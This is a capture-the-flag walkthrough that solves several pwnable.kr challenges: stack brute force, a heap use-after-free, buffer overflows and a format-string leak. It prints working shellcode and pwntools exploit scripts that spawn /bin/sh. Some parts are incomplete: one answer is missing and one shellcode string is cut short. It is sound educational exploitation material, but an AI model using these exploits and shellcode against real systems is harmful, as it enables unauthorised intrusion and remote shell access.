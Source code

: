 
# PwnableWalkthrough

### Tiny Easy - Level 6

Now we have a program which contains just 4 lines of assembly instructions:

```assembly
0x8048054:   pop    eax
0x8048055:   pop    edx
0x8048056:   mov    edx,DWORD PTR [edx]
0x8048058:   call   edx
```
It pops twice, and jumps to where the pointer points to.
Since that at the beginning of each program the os is pushing argv + env to the stack,
the program will call `argv[0]`.
So now we have found a way to jump to any location we want.
The problem in this challenge is that we have some kind of alsr, which randomizes our stack.
So that means we don't have a constant address of where the stack start, so we can't just jump there.
My way of bypassing that is by using brute force.
We fill all of the stack with nops, by adding a lot of environment variables that will be pushed to the stack.
and after that there will be our shellcode.
we can try to run the program a lot of times and jump to an address we decide.
If the address is by any chance in the stack, we will reach our shellcode and get a shell.
A good way to choose the address is by running the program in `gdb`, and looking at where `argv` is.
(it doesn't mean that it will be always that address, but it means that its possible)

Exploit:

```python
from pwn import *

shellCode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'

path = "tiny_easy"
address = '\x69\x69\xb0\xff'
envv = {str(i):("\x90" * 1000 + shellCode) for i in range(200)}

for i in range(400):

        temp = process(argv=[address], executable=path, env=envv)
        try:
                temp.recvline(timeout=1)
                temp.interactive()
                break
        except Exception as e:
                temp.close()
                print(i, "failed")
                print(e)
```


### Dragon - Level 10

We have a cool program, which lets us fight a dragon.
I have put the binary in IDA, found some things about the program:
![image](https://user-images.githubusercontent.com/56035342/214085600-37b910fe-70eb-4dbd-883c-c9803358de19.png)

The program calls the attack function, and checks if the returned value is 0. if it does, it will make us winners.
Lets see what can we do in order to win:
First of all, I noticed that I can switch between the Mom dragon and the Baby dragon each time I die.

![image](https://user-images.githubusercontent.com/56035342/214086610-54b3c3d2-e217-4ab3-947e-d5d6c1978b81.png)

This is the Priest Attack.
We can see that it will ask us for input, until the user dies (green), or the dragon dies(red).
Our job is to win, and kill the dragon.
We can see something interesting in the while last loop.
it makes the pointer a char pointer, and then dereferences it , and checks if the health is bigger than zero.
But lets keep in mind that char can only contain 256 numbers, (-128 to 128)
so if the health of the dragon will be greater than 128, we will get an overflow, and win! (it gets bigger by 4 each move)
The best way to do it is by losing in purpose to the Mom dragon , and fight the baby dragon (it has less damage), this time we will have the most turns.
After that, the user will choose the Priest, and they will just pick HolyShield until they don't have mana, and then they will pick Clarity to refresh the mana.
Then , after we win, a free will be done to the dragon object, and then it will malloc a new block with our input!
![image](https://user-images.githubusercontent.com/56035342/214087910-193897b2-8ad4-4f76-bf5e-ddfa71c19a5d.png)
So we can just replace the old function reference to the system call, and we will get a shell!

`(python2 -c "print('1\n1\n1\n1\n3\n3\n2\n3\n3\n2\n3\n3\n2\n3\n3\n2\n' + '\xbf\x8d\x04\x08\n')"; cat) | nc pwnable.kr 9004`


### Fix - Level 9

We have a simple c program, which simulates buffer overflow with a shellcode from shell-storm.
The only thing we can do is to change 1 byte of the shellcode to whatever we want, in order to make it work.
After debugging the binary, I noticed that all the shellcode gets overwritten after this assembly line:

```assembly
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax -----> this line
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

```

This happens because the shellcode is stored in the stack, and the `push` command is writing stuff to the stack, so it overwrites the next commands.
Which means if we will be able to just change `esp` to some random location, we will be able to push to the stack normally without overriding next instructions.
Since we can only change 1 byte of the shellcode, the only 1 byte command we can use is pop.
So to change esp we would have to do `pop esp`, which is `0x5c`
We can for example change one of the pushes, since they are 1 byte aswell.
One thing to notice is that we normally can't do things like `xor esp, esp`, `pop esp`, because esp is a special register.
In order to be able to do it we would have to run the command `ulimit -s unlimited`.
So the answer will be:

### Echo1 - Level 12

We have a program which asks a user for a name, and then a string and it echos the string.
the vulnerability in this program is that when we get input from the user, we can write after the string, since the fgets writes to many characters:
![image](https://user-images.githubusercontent.com/56035342/212696261-e353434b-a8be-4d17-89ca-c401835d1b11.png)
So we can understand that the challenge is some kind of a bufferoverflow.
After doing what we usually do when facing a bufferoverflow vulnerability,
I have found that the return address is stored 40 characters after the string(32 (size of buffer) + 8(ebp))
Another important thing to notice is that when we enter the name, it takes the first 4 bytes and puts it in the variable `id`, which is stored in `0x6020A0`, which means we can control a variable at a location we know, which is a really powerfull thing(spoiler: because we can jmp to that location and run an instruction we want)
In order to exploit those vulnerabilies, I have done the following things:
First of all, I compiled the command `jmp rsp`, which jumps to the value of rsp. it gave me `\xff\xe4`.
We need that specific command, beacause its the exact location of the end of the buffer, where our shellcode is located.
Now we need 40 characters to reach to the return pointer.
Then we need to specify an address which our code will jump to when the `ret` instruction is called.
I entered the address of id(`0x6020A0`) because then it will execute the command I entered, which is `jmp rsp`.
Then I have specified our shellcode, which will execute `/bin/sh` and give us a shell.
The final exploit code is as follows:

```py
from pwn import *

ssh=remote('pwnable.kr',9010)
shellCode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x>
jmpRSP = "\xff\xe4"
space = '\x90' * 40
keyAddress = '\xa0\x20\x60\x00\x00\x00\x00\x00'

ssh.sendline(jmpRSP)
ssh.sendline("1")
ssh.sendline(space + keyAddress + shellCode)
ssh.interactive()

```

### Echo2 - Level 13

This time we have the same program as `echo`, but the difference now is that we can only choose `FSB` or `UAF` in the menu.
One important thing we need to notice, is that once we press `4` for exit, it will instanstly free the `o` variable, which is storing the echo function.
We can use that for our own advantage, since we can trigger a free, and the program will still be ran (if we press n)
This way we can override the `greetings` function stored in the `o` variable, and jump to any location we want.
The way I did it is by entering a shellcode in the name (because then it will be in the stack).
Then I used the `FSB` in the menu, to leak stack addresses.
I noticed that in the 10th paramater, there is a pointer to the stack which is 32 bytes after our input.
So if we substract 32 from that number, and override the `greetings` function with it, we will run the shellcode specified in the name!
#Final exploit:


```py
from pwn import *

p=remote('pwnable.kr',9011)

shellCode="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
print(p.recv().decode())

#Sending username
p.sendline(shellCode)

print(p.recv())

#trigger free
print("Triggering free...")
p.sendline(b"4")
print(p.recv().decode())
p.sendline(b"n")

print("Getting stack addresses...")
print(p.recv().decode())
p.sendline(b"2")
print(p.recv().decode())
p.sendline(b"%10$p")
p.recv()
stack_addr = p.recv().decode().split("\n")[0]


print("stack leaked address is", stack_addr)

shellCodeAddr = p64(int(stack_addr, 16) - 32)

print("shellcode leaked addr: ", hex(u64(shellCodeAddr)))
p.sendline(b"3")

#changing the greeteings to jmp to our shellcode
p.sendline((24 * b"\x90") +  shellCodeAddr)

p.interactive()


```





